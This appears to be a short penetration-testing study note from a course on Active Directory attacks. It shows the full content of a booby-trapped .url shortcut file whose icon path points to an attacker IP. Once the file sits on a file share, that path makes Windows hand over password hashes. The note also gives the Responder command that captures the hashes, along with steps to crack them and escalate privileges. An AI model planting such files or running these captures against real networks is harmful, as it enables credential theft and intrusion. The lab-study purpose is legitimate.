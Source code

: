 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share on your THEPUNISHER vm (This should be done in the windows system)
- Then start up responder with the command `sudo responder -I wlan0 -v`
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped

Navigate to https://academy.tcm-sec.com/courses/1152300/lectures/33637401 to know better


